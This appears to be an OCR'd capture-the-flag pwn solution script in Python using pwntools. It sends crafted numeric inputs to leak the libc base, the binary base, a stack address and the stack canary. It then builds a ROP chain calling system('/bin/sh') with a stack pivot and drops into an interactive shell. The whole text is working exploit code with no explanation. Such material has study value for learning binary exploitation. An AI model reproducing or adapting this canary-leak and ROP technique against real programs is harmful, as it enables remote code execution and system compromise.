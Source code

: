 ```python
p.recvuntil('Hello CTFer! Welcome to the world of pwn~\n')

for i in range(0xa8):
    sleep(0.01)
    p.sendline('18')
for i in range(0x6):
    sleep(0.01)
    p.sendline('-')


'''leak libc_base'''
for i in range(0x1a):
    sleep(0.01)
    p.sendline('19')
for i in range (0x6):
    sleep(0.01)
    p.sendline('-')

'''leak base'''
for i in range(2):
    sleep(0.01)
    p.sendline('120')
for i in range(6):
    sleep(0.01)
    p.sendline('-')

'''leak canary'''
for i in range(0x3):
    sleep(0.01)
    p.sendline('21')

p.send('a')
a=p.recv()
setbuffer_addr=u64(a[0xb7:0xbd].ljust(8,'\x00'))-231

print('setbuffer_addr-------------------->',hex(setbuffer_addr))
base=u64(a[0xd7:0xdd].ljust(8,'\x00'))-0x10a0

print('base------------------------------->',hex(base))
leak_stack=u64(a[0xdf:0xe5].ljust(8,'\x00'))
print('leak_stack-------------------------->',hex(leak_stack))
canary=u64(a[0xe8:0xef].rjust(8,'\x00'))
print('canary------------------------------>',hex(canary))
print(a)

#result=autofill_long_libc('setbuffer',setbuffer_addr)
result=autofill_local_libc('setbuffer',setbuffer_addr,libc)
sys_addr=result[0]
bin_sh_addr=result[1]
pop_rdi_addr=base+0x130b
leave_addr=base+0x124a
print(hex(bin_sh_addr))

payload=p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(sys_addr)
payload=payload.ljust(0xd8,'a')
payload+=p64(canary)+p64(leak_stack-0x1d0-8)+p64(leave_addr)
p.sendline(payload)

p.interactive()
```
